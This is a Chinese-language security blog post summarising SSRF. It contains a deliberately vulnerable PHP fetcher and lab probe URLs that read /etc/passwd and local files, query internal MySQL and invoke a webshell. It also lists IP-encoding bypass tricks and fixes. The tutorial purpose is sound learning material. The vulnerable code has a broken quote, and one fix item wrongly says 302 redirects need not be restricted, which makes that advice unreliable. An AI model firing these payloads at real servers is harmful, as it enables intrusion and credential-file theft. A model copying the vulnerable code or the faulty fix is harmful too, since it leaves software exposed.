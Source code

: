 ```yaml
---
layout: post
title: "10.SSRF漏洞小结"
subtitle: "10.SSRF漏洞小结"
date: 2019-08-07
author: ppbibo
category: 习信息安全系列
finished: true
---
```

[TOC]

**什么是SSRF （Server-side Request Forgery）服务端请求伪造**



​        由于某些应用需要调用其他服务器上的资源，需要传入一个目标地址供服务器去请求，假设这个目标地址被攻击者控制，就可以访问促使服务器访问内网的其他服务。



**SSRF 漏洞源码**

```php
// ssrf.php
<?php
function curl($url){   //  程序获取url参数
    
    $ch=curl_init();   // 通过curl_init()初始化curl组件后
    curl_setopt($ch,CURLOPT_URL,$url); 
    // 将参数URL带入curl_setopt($ch,CURLOPT_URL,$url),
    curl_setopt($ch,CURLOPT_HEADER,0);
    curl_exec($ch); // 然后调用curl_exec请求该URL
    curl_close($ch);
}
$url=$_GET['url’];
// 由于服务器端会将banner信息返回给客户端，所以可根据banner判断主机是否存在某些服务。
curl($url);
?>

```



**Curl 支持的协议**

```bash
Mac-PpBiBo $ curl -V
curl 7.54.0 (x86_64-apple-darwin18.0) libcurl/7.54.0 LibreSSL/2.6.5 zlib/1.2.11 nghttp2/1.24.1
Protocols: dict file ftp ftps gopher http https imap imaps ldap ldaps pop3 pop3s rtsp smb smbs smtp smtps telnet tftp 

```



**探测内网**

```bash
http://192.168.1.102/ssrf.php?url=dict://127.0.0.1:3306
view-source:http://192.168.1.102/ssrf.php?url=http://192.168.1.101/l.php
http://192.168.1.102/ssrf.php?url=http://192.168.1.101/robots.txt
http://192.168.1.102/ssrf.php?url=http://192.168.1.101/favicon.ico
http://192.168.1.102/ssrf.php?url=http://192.168.1.101/index.html
http://192.168.1.102/ssrf.php?url=file://C:/phpStudy/phptutorial/WWW/1.asp
http://192.168.1.102/ssrf.php?url=file:///etc/passwd
view-source:http://192.168.1.102/ssrf.php?url=file://C:/phpStudy/phptutorial/WWW/cmd.php
http://192.168.1.102/ssrf.php?url=http://192.168.1.101/muma.php?pass=phpinfo();
http://192.168.1.102/ssrf.php?url=
```



**绕过技巧**



短网址绕过

IP限制绕过

​    十进制转换 八进制转换 十六进制转换  不同进制组合转换

[https://abc.com@127.0.0.1](https://abc.com@127.0.0.1/)与[http://127.0.0.1](http://127.0.0.1/)的请求是一样的



**从WEB功能上寻找SSRF漏洞**

1. 分享：通过URL地址分享网页内容
2. 转码服务：通过URL地址把原地址的内容调优为适合手机屏幕浏览的内容
3. 在线翻译：通过URL地址翻译对应的网页内容。提供此功能的有国内的百度翻译，有道翻译
4. 图片加载和下载：通过URL加载图片或下载
5. 图片、文章收藏功能
6. 未公开的api实现及其他通过参数调用外部资源的功能



**URL中可能存在SSRF漏洞的关键字**

```bash
share
url
img
wap
link
src
source
target
u
3g
display
sourceURL
image
imageURL
domain

```



**修复方案：**

​    • 限制协议为HTTP、HTTPS

​    • 不用限制302重定向

​    • 设置URL白名单或者限制内网IP